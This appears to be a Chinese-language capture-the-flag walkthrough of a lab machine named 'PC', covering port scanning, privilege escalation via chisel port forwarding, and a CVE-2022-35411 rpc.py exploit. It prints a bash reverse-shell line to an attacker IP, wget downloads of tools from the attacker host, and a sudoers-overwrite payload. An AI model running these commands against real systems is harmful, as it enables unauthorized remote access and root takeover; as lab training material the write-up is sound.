

# ✔️ PC

## 建立立足点

### 信息收集

* 使用Nmap对目标开放端口进行扫描，发现2个开放端口：22和8000

<figure><figcaption></figcaption></figure>

### GET SHELL

* 从Nmap扫描结果也可直接得知，发现8000端口就是一个终端：

<figure><figcaption></figcaption></figure>

* 将shell回连到自己的Kaili机器上，方便后续操作：

```bash
# Kali
nc -lvnp 5555
# 目标主机
sh -i >& /dev/tcp/192.168.45.154/5555 0>&1
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 传linpeas.sh到目标系统进行信息收集：

```bash
# Kali目录下开启服务器
pyhton3 -m http.server 8888
# 目标主机
wget http://192.168.45.154:8888/linpeas.sh /home/user/linpeas.sh
```

<figure><figcaption></figcaption></figure>


关于linpeas所收集到的可能可被利用的CVE漏洞是具有参考意义的，但并非每次都能成功作用于当前的目标系统，还需要结合目标系统实际的具体情况，仔细查看各项输出信息，再做判断。（兔子洞很容易出现在这个阶段，就像本例就没有利用到那些建议的CVE）


* 本例中，从linpeas的输出信息可得知还有两个活动的开放端口（53和65432）是之前Nmap阶段并没有扫描出来的，因此可以重点关注一下：

<figure><figcaption></figcaption></figure>

* 在查看以root权限运行的进程时，发现有一个\`rpc.py\`的脚本是运行在/opt目录下的，该目录并不是安装默认应用程序的文件夹：

<figure><figcaption></figcaption></figure>

* 查看一下该脚本发现它是运行在当前目标系统的65432端口上的，又是65432：

<figure><figcaption></figcaption></figure>

* 因为之前的扫描无法得知端口65432上运行的关于服务的具体信息，所以决定使用chisel对该端口进行反向端口转发，再用Nmap扫出关于它的详细信息：

```bash
# Kali机器和目标系统机器都需要安装相同版本的chisel
# 本例下载的是chisel linux 1.9.1版本的，将该工具传入目标系统中
wget http://192.168.45.154:8888/chisel /home/user/chisel
chmod +x chisel
```

<figure><figcaption></figcaption></figure>

* 在Kali机器上开启chisel服务器，监听好端口：

```bash
chisel server -p 7777 --reverse
```

<figure><figcaption></figcaption></figure>

* 然后在目标系统上开启chisel的客户端，并设置端口转发各个参数后运行：

```bash
chisel client 192.168.xx.xxx:7777 R:65432:127.0.0.1:65432
```

<figure><figcaption></figcaption></figure>

* 此时Kali主机的服务端应该已经有了转发成功的数据流，可确认一下是否真的成功：

```bash
netstat -tulnp
```

<figure><figcaption></figcaption></figure>

* 现在就可以用Nmap对Kali机器上的65432端口进行扫描，以获取该端口上运行的服务的详细信息了：

```bash
nmap -sC -sV -p 65432 127.0.0.1 -A -sT
```

<figure><figcaption></figcaption></figure>

### 漏洞查阅

* 根据Nmap输出信息，没有发现什么东西，所以直接尝试搜索\`rpc.py\`的漏洞利用，发现了一个远程代码执行的漏洞：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### 漏洞利用

* 阅读代码后，发现可将\`exec\_command()\`函数中的内容直接修改为自己需要的命令：

<figure><figcaption></figcaption></figure>

* 将此处命令修改为可以让user用户无需密码即可以root权限运行各个命令：

```bash
'echo "user ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
```

<figure><figcaption></figcaption></figure>

* 这个脚本是直接在exploitdb里下载的，里面每个=后面都有个\`3D\`的乱码得删掉，才能执行成功。

### ROOT

* 修改好后的脚本传入目标机器，赋予执行权限，直接运行该脚本即可提权成功：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 获取flag：

<figure><figcaption></figcaption></figure>


本例以为又是一个评级过高的简单机器，因为该机器并没有GET SHELL的过程。在之后的提权阶段需要涉及到反向端口转发和仔细的进行信息枚举，才能发现可被利用的漏洞。

CVE-2022-35411

